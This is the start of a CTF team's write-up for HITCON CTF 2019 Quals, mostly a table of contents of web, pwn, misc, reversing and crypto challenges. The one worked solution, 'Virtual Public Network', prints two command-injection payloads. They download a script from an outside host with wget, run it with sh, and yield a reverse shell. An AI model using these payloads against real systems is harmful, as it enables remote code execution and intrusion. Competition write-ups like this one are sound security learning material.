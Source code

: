 # HITCON CTF 2019 Quals

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/) of this writeup.**


 - [HITCON CTF 2019 Quals](#hitcon-ctf-2019-quals)
   - [Web](#web)
     - [Virtual Public Network](#virtual-public-network)
     - [Bounty Pl33z](#bounty-pl33z)
     - [GoGo PowerSQL](#gogo-powersql)
       - [Failed Attempts](#failed-attempts)
     - [Luatic](#luatic)
       - [Overwrite varibles](#overwrite-varibles)
       - [Redis and Lua](#redis-and-lua)
     - [Buggy .NET](#buggy-net)
   - [Pwn](#pwn)
     - [PoE - I](#poe---i)
     - [EmojiiiVM](#emojiiivm)
     - [Netatalk](#netatalk)
     - [<g-emoji class="g-emoji" alias="jack_o_lantern" fallback-src="https://github.githubassets.com/images/icons/emoji/unicode/1f383.png">🎃</g-emoji> Trick or Treat <g-emoji class="g-emoji" alias="jack_o_lantern" fallback-src="https://github.githubassets.com/images/icons/emoji/unicode/1f383.png">🎃</g-emoji>](#-trick-or-treat-)
     - [LazyHouse](#lazyhouse)
     - [One Punch Man](#one-punch-man)
     - [Crypto in the Shell](#crypto-in-the-shell)
   - [Misc](#misc)
     - [Revenge of Welcome](#revenge-of-welcome)
     - [EV3 Player](#ev3-player)
     - [heXDump](#hexdump)
     - [EmojiVM](#emojivm)
   - [Rev](#rev)
     - [EV3 Arm](#ev3-arm)
     - [EmojiVM](#emojivm-1)
     - [Core Dumb](#core-dumb)
     - [Suicune](#suicune)
   - [Crypto](#crypto)
     - [Lost Modulus Again](#lost-modulus-again)
     - [Lost Key Again](#lost-key-again)
     - [Very simple haskell](#very-simple-haskell)


## Web

### Virtual Public Network

`-r$x="wget kaibro.tw/yy -O /tmp/kaibro",system$x# 2>./tmp/kaibro.thtml <`

`-r$x="sh /tmp/kaibro",system$x# 2>./tmp/kaibro.thtml <`

then get reverse shell back.
